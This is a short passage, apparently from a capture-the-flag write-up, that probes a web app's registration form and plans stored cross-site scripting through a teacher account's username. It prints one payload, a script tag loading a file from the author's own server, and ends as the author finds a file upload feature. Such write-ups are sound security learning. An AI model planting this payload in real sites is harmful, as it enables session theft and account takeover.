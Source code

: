 Some issues with registration:
- Username and email are apparently factors in uniqueness of an account.
- Usernames have seemingly length limitations for logins
- Quotes aren't allowed

Playing with the payload a bit, to figure out how what's allowed. Figuring out the discoveries above. 
I defaulted to
```html
<script src=http://$my_ip:8000/xxs.js>
```
Which provides me some call back
We have a potential chain here already viewing the clues.

Anything that renders our username will reflect this, teacher accounts apparently need approval, and we need to email them for approval.
So, my suspicion is we need to register a teacher with some stored xxs and when they come to check on it we should get a reply.

However, after attempting this nicely thought out plan to see if I ever get a call back from my server, led to some sadness.
So I went to explore more functionality of the website and I should have done this sooner, because I can upload files?

